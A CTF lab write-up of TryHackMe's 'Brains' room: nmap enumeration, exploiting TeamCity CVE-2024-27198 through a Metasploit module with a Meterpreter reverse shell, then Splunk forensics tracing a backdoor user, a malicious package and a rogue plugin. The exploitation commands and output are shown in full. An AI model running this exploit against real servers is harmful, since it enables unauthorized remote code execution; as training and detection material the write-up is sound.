








## Scenario — Exploitation

> Welcome to the Brains challenge, part of TryHackMe's Hackathon!
> 
> All brains gathered to build an engineering marvel; however, it seems strangers had found away to get in.

Access via: `10.113.138.232`

## Enumeration

### Initial Web Recon

Browsed to `http://10.113.138.232` first. The server returned a static "Maintenance" page with no further content.



Viewing the page source showed nothing useful, `index.php` returned nothing, and there was no `robots.txt`. The Wappalyzer browser extension was checked next and reported a mixed stack: a CI tool, Java, Apache Tomcat, and a handful of JavaScript libraries.



With the front page offering no way in, the next step was a full port scan to see what else was exposed.

### Port Scanning

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.138.232 -p-
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-08 01:50 +0200
Nmap scan report for 10.113.138.232
Host is up (0.035s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
44137/tcp open  unknown
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 20.56 seconds
```

**Breakdown:**

- `sudo` runs the scan with elevated privileges, which some nmap scan types require
- `nmap` invokes the scanner
- `10.113.138.232` is the target address
- `-p-` scans all 65,535 TCP ports rather than nmap's default ~1,000 common ports

This full sweep accomplishes a complete picture of every open TCP port on the host, beyond what a default scan would show.

Four ports came back open: 22, 80, 44137 and 50000. A targeted scan followed, aimed only at those ports, to get version and service detail.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.138.232 -p22,80,44137,50000 -sV -sC 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-08 01:53 +0200
Nmap scan report for 10.113.138.232
Host is up (0.035s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 40:bd:bb:6d:c9:26:48:42:f8:58:63:3e:99:59:72:d5 (RSA)
|   256 67:e7:3f:e1:e4:ac:e2:13:08:38:af:bf:f7:be:d9:ec (ECDSA)
|_  256 de:ba:c0:6f:6d:de:1c:49:54:ef:9a:65:b1:40:43:ab (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.41 (Ubuntu)
44137/tcp open  java-rmi Java RMI
50000/tcp open  http     Apache Tomcat (language: en)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: TeamCity Maintenance &mdash; TeamCity
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.16 seconds
```

**Breakdown:**

- `sudo` and `nmap` as above
- `10.113.138.232` is the target address
- `-p22,80,44137,50000` restricts the scan to the four ports the previous scan found open
- `-sV` runs service and version detection against each open port
- `-sC` runs nmap's default set of safe scripts against the open ports

|Port|Service|Notes|
|---|---|---|
|22|ssh|OpenSSH 8.2p1 (Ubuntu)|
|80|http|Apache 2.4.41, serves the "Maintenance" page|
|44137|java-rmi|Java RMI|
|50000|http|Apache Tomcat, hosting TeamCity (page title: "TeamCity Maintenance")|

Port 50000 confirmed the TeamCity instance the Wappalyzer scan had hinted at, and gave a concrete page to target.

## Locating and Attacking the Login Portal

`http://10.113.138.232:50000/login.html` loaded a TeamCity login page, version 2023.11.3 (build 147512).



`admin:admin` was tried and rejected. The browser's dev tools Network tab showed the submitted password was encrypted client-side before being sent, rather than a plaintext field.



Hypothesis: with the password encrypted before submission, straightforward credential guessing wasn't going to be a quick path in, so decided to put this on the back-burner and check instead the known version, 2023.11.3 build 147512, for published vulnerabilities rather than continuing to guess credentials.

A search for exploits against that version turned up CVE-2024-27198, an authentication bypass.



### Exploiting CVE-2024-27198

Checked for a matching Metasploit module:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ msfconsole -q           
[*] Starting persistent handler(s)...
msf > search CVE-2024-27198

Matching Modules
================

   #  Full Name                                                 Disclosure Date  Rank       Check  Name
   -  ---------                                                 ---------------  ----       -----  ----
   0  exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198  2024-03-04       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   1    \_ target: Java                                         .                .          .      .
   2    \_ target: Java Server Page                             .                .          .      .
   3    \_ target: Windows Command                              .                .          .      .
   4    \_ target: Linux Command                                .                .          .      .
   5    \_ target: Unix Command                                 .                .          .      .


Interact with a module by name or index. For example info 5, use 5 or use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
After interacting with a module you can manually set a TARGET with set TARGET 'Unix Command'
```

**Breakdown:**

- `msfconsole` launches the Metasploit console
- `-q` suppresses the startup banner (quiet mode)
- `search CVE-2024-27198` searches installed modules for anything matching that CVE identifier

A matching exploit module existed, with several possible targets depending on the platform (`exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198`). The module's own options were set next:

```shell
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RPORT 50000
RPORT => 50000
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOSTS 10.113.138.232
RHOSTS => 10.113.138.232
TARGETURI => /login.html
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set LHOST tun0
LHOST => —REDACTED—
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks4, socks5, socks5h, http, sapni
   RHOSTS             10.113.138.232   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              50000            yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  —REDACTED—   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java


View the full module info with the info, or info -d command.
```

**Breakdown:**

- `set RPORT 50000` points the module at the port TeamCity is running on
- `set RHOSTS 10.113.138.232` sets the target host
- `set LHOST tun0` sets the attacker-side listener address to the `tun0` interface (the VPN tunnel interface); Metasploit resolved this to the tunnel's actual address, `—REDACTED—`
- `options` lists the module's and payload's current configuration, to confirm everything is set correctly before running the exploit

The module defaulted to exploit target 0 (Java) and the `java/meterpreter/reverse_tcp` payload on local port 4444. Since this exploit requires the target to be Java-based, that was checked against the target as a second confirmation beside Wappalyzer before running anything.

```shell
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 10.113.138.232:50000 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
```

Confirmed: the module itself reports the target vulnerable, so the exploit was run.

```shell
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit
[*] Started reverse TCP handler on —REDACTED—:4444 
[!] AutoCheck is disabled, proceeding with exploitation
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.LTlMYVB6NV8zM2hWbnZRT1p0QW1FS3puWVlR.YjQyMTg5ZDYtNTk0Zi00NmNiLTliYWUtZGQyY2Y4MzIyMDIx
[*] Uploading plugin: xByrYWXX
[*] Sending stage (63222 bytes) to 10.113.138.232
[*] Meterpreter session 1 opened (—REDACTED—:4444 -> 10.113.138.232:55468) at 2026-11-08 02:23:16 +0200
[*] Deleting the plugin...
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/xByrYWXX' on the target
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_xByrYWXX' on the target
[!] This exploit may require manual cleanup of '/home/ubuntu/.BuildServer/system/caches/plugins.unpacked/xByrYWXX' on the target

meterpreter > 
```

The exploit worked, landing a Meterpreter session. The module's own log shows its method: it creates an authentication token against TeamCity's API (the CVE lets it do this without credentials), uploads a malicious plugin to get code execution, then deletes the plugin and the token afterwards to clean up after itself.

### Reaching the Flag

```shell
meterpreter > shell
Process 1 created.
Channel 1 created.
echo $0

/bin/sh
```

**Breakdown:**

- `shell` drops from the Meterpreter session into a native system shell on the target
- `echo $0` prints the name of the current shell, confirming it landed in `/bin/sh`

```shell
find / -type f -name *flag*.txt 2>/dev/null

/home/ubuntu/flag.txt
```

**Breakdown:**

- `find /` starts the search at the filesystem root
- `-type f` restricts matches to regular files
- `-name *flag*.txt` matches any filename containing "flag" and ending in `.txt`
- `2>/dev/null` sends error output (such as "permission denied" on directories the shell can't read) to `/dev/null`, so it doesn't clutter the results

```shell
cat /home/ubuntu/flag.txt

—REDACTED—
```

### Question 1 — What is the content of flag.txt in the user's home folder?

**Answer:** `—REDACTED—`

## Scenario — Detection

> Now comes the detection part.
> 
> The IT department has provided us one of the servers which was compromised as a result of the attack. Our task as a Forensics Analyst is to examine the host and identify the attacker's footprints in the post-exploitation stage.

Access via: `10.112.140.190:8000`

Username: `splunk`

Password: `analyst123`

The address recorded once the machine had actually deployed was `10.112.131.8`.

## Investigation

With Splunk logged into, the time range was set to "All time" so nothing from before the compromise would be missed, before searching for signs of the attacker's post-exploitation activity.

### Identifying the Backdoor User

A simple keyword search for `useradd` across all indexed logs was run first, to look for any account creation that didn't belong.

```shell
useradd
```



Among the results, one entry stood out against the legitimate system accounts: a user named `—REDACTED—` was created on 4 July 2024.

```
Jul  4 22:32:37 brains useradd[11207]: new user: name=—REDACTED—, UID=1001, GID=1001, home=/home/—REDACTED—, shell=/bin/bash, from=/dev/pts/0
Jul  4 22:32:37 brains useradd[11207]: new group: name=—REDACTED—, GID=1001
Jul  4 22:32:56 brains useradd[11300]: failed adding user '—REDACTED—', data deleted
```

The results show the user was created successfully at 22:32:37, with a second, failed attempt to add the same user at 22:32:56 shortly after.

### Question 1 — What is the name of the backdoor user which was created on the server after exploitation?

**Answer:** `—REDACTED—`

### Identifying the Malicious Package

With the backdoor user's creation date established as 4 July 2024, the next search narrowed to package installation logs around that same date.

```shell
sourcetype="packages" date_month="july" date_mday="4"
```

**Breakdown:**

- `sourcetype="packages"` restricts the search to events logged by the package manager (dpkg)
- `date_month="july"` filters to events from July
- `date_mday="4"` filters to events from the 4th of the month



Seven events came back, all tracing the installation of a single package, a few minutes after the backdoor user was created:

```
2024-07-04 22:58:23.000 startup archives install
2024-07-04 22:58:25.000 install —REDACTED—:amd64 <none> 1.0
2024-07-04 22:58:25.000 status half-installed —REDACTED—:amd64 1.0
2024-07-04 22:58:25.000 status unpacked —REDACTED—:amd64 1.0
2024-07-04 22:58:25.000 configure —REDACTED—:amd64 1.0 1.0
2024-07-04 22:58:25.000 status half-configured —REDACTED—:amd64 1.0
2024-07-04 22:58:25.000 status installed —REDACTED—:amd64 1.0
```

### Question 2 — What is the name of the malicious-looking package installed on the server?

**Answer:** `—REDACTED—`

### Identifying the Uploaded Plugin

The same date was used to search TeamCity's own activity logs for any plugin activity.

```shell
plugin date_month="july" date_mday="4"
```

**Breakdown:**

- `plugin` is a free-text keyword, matching any event containing the word "plugin"
- `date_month="july"` and `date_mday="4"` filter to 4 July, as above



A single matching event was returned, from TeamCity's own audit log:

```
[2024-07-04 22:08:31,921]   INFO - s.buildServer.ACTIVITIES.AUDIT - plugin_uploaded: Plugin "—REDACTED—" was updated by user with id=11 with comment "Plugin was uploaded to /home/ubuntu/.BuildServer/plugins/—REDACTED—.zip"
```

### Question 3 — What is the name of the plugin installed on the server after successful exploitation?

**Answer:** `—REDACTED—.zip`